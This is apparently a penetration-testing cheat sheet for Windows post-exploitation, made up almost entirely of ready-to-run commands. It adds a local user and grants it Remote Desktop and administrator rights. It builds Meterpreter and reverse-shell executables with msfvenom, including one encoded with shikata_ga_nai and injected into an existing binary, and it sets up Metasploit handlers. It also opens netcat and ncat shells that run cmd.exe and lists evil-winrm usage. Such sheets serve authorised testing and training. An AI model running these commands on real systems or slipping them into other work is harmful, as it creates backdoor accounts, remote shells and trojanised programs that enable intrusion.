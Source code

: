 ## RDP

```
If RDP group exits try to add self to group for rdp
    -Add a user on Windows
        -Command: net user $username $password /add
    -Add a user to RDP Group
        -Command: net localgroup "Remote Desktop Users" $username /add
    -Make a user an administrator
        -net localgroup administrators $username /add
```

## Msfvenom

* Meterpreter

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -o shell_reverse.exe
```

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

* Non-staged payload (works with nc)

```
msfvenom -p windows/shell_reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o shell_reverse_tcp.exe
```

```
use exploit/multi/handler
set payload windows/shell_reverse_tcp
```

* Staged payload (must be caught with metasploit)

```
msfvenom -p windows/shell/reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o staged_reverse_tcp.exe
```

```
use exploit/multi/handler
set payload windows/shell/reverse_tcp
```

* Inject payload into binary

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```

## Netcat Shell

```
nc.exe -nlvp 4444 -e cmd.exe
nc.exe 192.168.1.101 443 -e cmd.exe

ncat --exec cmd.exe --allow 192.168.1.101 -vnl 5555 --ssl
ncat -nv <ip_to_connect> 4444	

If netcat exe cant be located try to host own nc.exe
Command: \\10.10.X.X\\share\nc.exe ****
```

## Evil-winrm

```
Usage: evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM]
```
